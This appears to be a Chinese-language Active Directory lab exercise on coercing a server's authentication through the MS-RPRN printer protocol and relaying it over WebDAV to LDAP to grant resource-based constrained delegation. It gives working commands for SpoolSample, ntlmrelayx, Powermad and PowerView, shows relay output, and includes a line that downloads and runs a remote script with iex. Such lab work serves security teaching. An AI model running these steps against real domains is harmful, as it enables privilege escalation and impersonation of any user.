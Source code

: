 # Exercise 3 - Coerced Authentication and NTLM Relay

## Preparations

在AD-01安裝 Webclient service，以支援WebDav Client功能

```powershell
Install-WindowsFeature WebDAV-Redirector
```

- 重啟後，使用以下腳本讓WEBDAV開機時自動啟動

```powershell
Get-Service mrxdav,webclient | Set-Service -StartupType Automatic
```

- 使用以下腳本確認服務是否開啟

```powershell
start-service mrxdav,webclient
get-service mrxdav,webclient
```

WebDav通常預設不會再Sever上安裝，但是Desktop版本的作業系統通常會預設安裝(如Onedrive就有此功能)，故實務上使用WEBDAV做NTLM Relay是可行的。

## Tools

使用工具如下:

- Impacket: [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- SpoolSample: [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
- Powermad: [https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

## Theory

本練習利用微軟MS-RPRN(印表機)協定的設計缺陷，強制AD-01使用Computer account(AD-01$)對AD-00發起NTLM驗證，並將該驗證Relay到AD-DC上，執行RDBC委派(為後續內容)，並讓我們創建的computer account **$evilpc** 對AD-01有RBCD權限，可偽冒 **任意使用者** 使用AD-01上的 **任意服務**

### NTLM 驗證

![](../images/2022-06-16-11-47-49.png)

### NTLM Relay場景

![](../images/2022-06-16-11-53-36.png)

### PRPN Problem

- MSRPRN:拿來控制windows印表機共用的協定
    - 角色:
        - 客戶端(Client)
        - 共用印表機的電腦(Printer Server)
        - 印表機
    - Client:可管理Printer Server新增印表機及驅動等動作
    - **Client可要求Printer Server對印表機變動時自動通知Client**

![](../images/2022-06-16-11-57-53.png)

### UNC Path and WebDav

![](../images/2022-06-16-11-58-40.png)

## Exercise

本攻擊包含以下步驟

1) 創建新computer account evilpc
2) 在AD-00設定NTLM-Relay Server
3) 使用MS-RPRC協定觸發AD-01向AD-00發起認證

### Create a new computer account

為了實作kerberos delegation此處需先創建一個computer account **evil-pc**，在實驗六會在詳細解釋原理。

```powershell
cd C:\attacker-tools\
cat -raw .\Powermad.ps1 | iex
New-MachineAccount -MachineAccount evil-pc -Password (ConvertTo-SecureString -String "EvilPassword1" -AsPlainText -Force)
```

### Set up a ntlm relay server

使用ntlmrelayx.py工具，在AD-00發起一個NTLM relay server

```powershell
ntlmrelayx.py --no-smb-server --delegate-access --escalate-user evilpc$ -t ldap://ad-dc.contoso.com
```

- **--no-smb-server**:不發起SMB Server，因為此處是使用WEBDAV服務(HTTP)作為NTLM的載體。

- **--delegate-access**:定義在ntlm relay後，要向ad-dc變更AD-01的RBCD權限

 - **--escalate-user evilpc$** 使$evilpc擁有AD-01的RBCD權限。

 - **-t ldap://ad-dc.contoso.com** 定義ntlm relay的目標，此處為使用ldap協議向ad-dc發起RBCD的權限變更。

NTLM為一個內嵌的認證協議，實際上可運用在HTTP、LDAP以及SMB等常見的windows內網協定上。

### 使用MS-RPRC協定觸發驗證

使用SpoolSample.exe使用MS-RPRC協定觸發ad-01向ad-00發起WEBDAV(HTTP)的NTLM協定。

```
 .\SpoolSample.exe ad-01 ad-00@80/foobar
```

**UNC Path格式如下**:
- \\\ad-00 =>發起SMB認證
- \\\ad-00@80 => 對80 port 發起webdav認證


- 如果攻擊成功將會在ad-00的NTLM relay的程式視窗看到以下結果: 

```
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] Authenticating against ldap://adsec-dc.contoso.com as CONTOSO\adsec-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Authenticating against ldap://adsec-dc.contoso.com as CONTOSO\adsec-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] Delegation rights modified succesfully!
[*] evilpc$ can now impersonate users on ADSEC-01$ via S4U2Proxy
```

PowerView 可查看 ad-01成功對evil-pc這個computer account授予RBCD權限。


```powershell
cat -raw ".\PowerView.ps1" | iex
Get-DomainComputer ad-01 | select msds-allowedtoactonbehalfofotheridentity

#取得RBCD的RawData
$RawBytes = Get-DomainComputer ad-01 | select -expand msds-allowedtoactonbehalfofotheridentity

iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

#轉換為 sid
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl

#將sid轉換為可辨識的帳號 sid為上一步取得
ConvertFrom-Sid sid

```